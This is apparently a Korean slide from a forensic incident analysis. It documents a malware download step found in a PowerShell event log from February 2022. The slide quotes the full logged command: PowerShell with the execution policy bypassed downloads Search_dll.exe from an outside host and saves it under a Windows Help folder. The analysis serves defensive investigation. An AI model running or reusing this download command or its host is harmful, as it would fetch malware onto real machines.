

# 2. 단계별 상세 분석
2.2 악성코드 다운로드

▶ 시각 : 2022년 2월 8일 오후 3:58:33

▶ 이벤트 로그 – Powershell.evtx

     - 다운로드 파일 : http://neotra.kro.kr:5080/resume/apply/up_documents/Search_dll.exe

     - 저장 경로 : C:\Windows\Help\Windows\ContentStore\Search_dll.exe
| TimeCreated | 2022년 2월 8일 오후 3:58:33 |
| --- | --- |
| EventID | 600 |
| ... HostApplication= powershell.exe -ExecutionPolicy ByPase -Command & (New-Object System.Net.WebClient).DownloadFile('http://neotra.kro.kr:5080/resume/apply/up\_documents/Search\_dll.exe', 'C:\Windows\Help\Windows\ContentStore\Search\_dll.exe'); ... |  |